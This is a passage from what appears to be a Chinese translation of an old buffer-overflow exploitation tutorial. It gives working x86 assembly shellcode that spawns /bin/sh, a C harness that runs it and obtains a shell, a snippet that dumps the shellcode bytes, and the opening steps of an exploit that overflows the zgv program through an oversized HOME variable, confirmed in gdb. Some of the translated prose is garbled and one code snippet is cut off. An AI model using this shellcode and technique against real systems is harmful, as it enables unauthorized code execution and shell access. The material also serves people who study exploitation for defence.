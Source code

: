 ```
global code_start/* we';ll need this later, dont mind it */
global code_end
.data
code_start:
jmp  0x17
popl %esi
movl %esi,0x8(%esi)/* put address of **argv behind shellcode,
   0x8 bytes behind it so a /bin/sh has place */
xorl %eax,%eax/* put 0 in %eax */
movb %eax,0x7(%esi)/* put terminating 0 after /bin/sh string */
movl %eax,0xc(%esi)/* another 0 to get the size of a long word */
my_execve:
movb $0xb,%al/* execve(         */
movl %esi,%ebx/* "/bin/sh",      */
leal 0x8(%esi),%ecx/* & of "/bin/sh", */
xorl %edx,%edx/* NULL   */
int $0x80/* );   */
call -0x1c
.string "/bin/shX"/* X is overwritten by movb %eax,0x7(%esi) */
code_end:
```

‍‍‍‍（通过0×0相对偏移了0×17和-0x1c，编译，反汇编，看看shell代码的大小。）

这是一个正在运行着的shellcode，虽然很小。你至少要反汇编exit()来调用和依附它（在调用之前）。完成shellcode的正真的意义还包括避免任何二进制0代码和修改它，二进制代码不包含控制和小写字符，这将会过滤掉一些问题程序。大多数是通过自己修改代码来完成的，如我们使用的mov %eax,0×7(%esi)指令。我们用来取代X，但是在shellcode初始化中没有。

让我们测试下这些代码，把上面的代码保存为code.S同时把下面的文件保存为code.c：‍‍‍‍

```
extern void code_start();  extern void code_end();  #include <stdio.h> main() { ((void (*)(void)) code_start)(); }   # cc -o code code.S code.c  # ./code bash#
```

‍‍现在你可以把shellcode转移到16进制字符缓冲区。最好的方法就是把它打印出来：‍‍

```
#include <stdio.h>  extern void code_start(); extern void code_end(); main() { fprintf(stderr,"%s",code_start);
```

‍‍通过使用aconv –h或bin2c.pl来解析它，可以在[http://www.dec.net/~dhg](http://www.dec.net/~dhg)或是[http://members.tripod.com/mixtersecurity](http://members.tripod.com/mixtersecurity)上找到工具。‍‍

**5 写一个利用**

‍‍让我们看看如何把返回地址指向的shellcode进行压栈，写了一个简单的例子。我们将要采用zgv，因为这是可以利用的一个最简单的方法。‍‍

```
# export HOME=`perl -e ';printf "a" x 2000''
# zgv
Segmentation fault (core dumped)
# gdb /usr/bin/zgv core
#0  0x61616161 in ?? ()
(gdb) info register esp
     esp: 0xbffff574 -1073744524
```
